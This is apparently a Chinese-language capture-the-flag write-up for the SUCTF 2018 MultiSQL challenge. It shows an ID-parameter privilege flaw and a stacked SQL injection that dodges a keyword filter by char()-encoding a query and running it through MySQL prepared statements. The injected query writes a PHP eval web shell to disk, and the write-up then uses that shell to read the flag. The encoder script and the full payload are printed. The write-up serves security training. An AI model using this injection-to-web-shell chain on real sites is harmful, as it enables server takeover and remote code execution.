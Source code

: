 ```yaml
---
title: '[SUCTF 2018]MultiSQL'
date: 2024-08-18 20:00:14
tags:    
     - 题解
     - sql注入
categories: 刷题笔记
---
```


### [SUCTF 2018]MultiSQL(mysql预处理)

我们打开页面源码，找到登录，注册页面

![image-20240818200624899](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202408182006003.png)

先进行注册，再登录

<!--more-->

![image-20240818200704555](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202408182007713.png)

我们发现可以编辑头像，但上传上去的文件全被改为jpg格式，排除文件上传，我们点击用户信息

![image-20240818200808148](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202408182008237.png)

id=2那里可以随意更改，存在越权，1就是admin

![image-20240818200832974](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202408182008150.png)

我们考虑sql注入，我们使用[mysql的预处理](https://www.cnblogs.com/jierong12/p/8882534.html)

set

```
MariaDB [(none)]> set @a='select version()';
Query OK, 0 rows affected (0.00 sec)

MariaDB [(none)]> select @a;
+------------------+
| @a               |
+------------------+
| select version() |
+------------------+

```

set的作用就是定义一个变量，变量的命名必须是@开头



prepare和execute

prepare语句用于预定义一个语句，不可以指定预定义语句名称。execute则是执行预定义语句

```
prepare prepare_name from “sql语句”

execute prepare_name

```

结合起来利用就是

```
MariaDB [(none)]> set @a='select version()';
Query OK, 0 rows affected (0.00 sec)

MariaDB [(none)]> prepare t from @a;
Query OK, 0 rows affected (0.00 sec)
Statement prepared

MariaDB [(none)]> execute t;
+-------------------+
| version()         |
+-------------------+
| 10.1.29-MariaDB-6 |
+-------------------+
1 row in set (0.00 sec)

```

这题通过fuzz测试后发现过滤了union、select，&，|,过滤了select然后存在堆叠注入的可以使用预处理注入，尝试写入shell，因为过滤了select等字符，使用char()绕过，需要执行的语句

```
select ‘<?php eval($_POST[_]);?>’ into outfile ‘/var/www/html/favicon/shell.php’;

```

使用脚本编程十进制：

```
str="select '<?php eval($_POST[_]);?>' into outfile '/var/www/html/favicon/shell.php';"
len_str=len(str)
for i in range(0,len_str):
	if i == 0:
		print('char(%s'%ord(str[i]),end="")
	else:
		print(',%s'%ord(str[i]),end="")
print(')')

//char(115,101,108,101,99,116,32,39,60,63,112,104,112,32,101,118,97,108,40,36,95,80,79,83,84,91,95,93,41,59,63,62,39,32,105,110,116,111,32,111,117,116,102,105,108,101,32,39,47,118,97,114,47,119,119,119,47,104,116,109,108,47,102,97,118,105,99,111,110,47,115,104,101,108,108,46,112,104,112,39,59)

```

payload

```
?id=2;set @sql=char(115,101,108,101,99,116,32,39,60,63,112,104,112,32,101,118,97,108,40,36,95,80,79,83,84,91,95,93,41,59,63,62,39,32,105,110,116,111,32,111,117,116,102,105,108,101,32,39,47,118,97,114,47,119,119,119,47,104,116,109,108,47,102,97,118,105,99,111,110,47,115,104,101,108,108,46,112,104,112,39,59);prepare query from @sql;execute query;

```

利用该payload写入shell

![image-20240818201807447](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202408182018604.png)

访问shell.php的位置进行rce

```
_=system("cat ../../../../WelL_Th1s_14_fl4g");
```

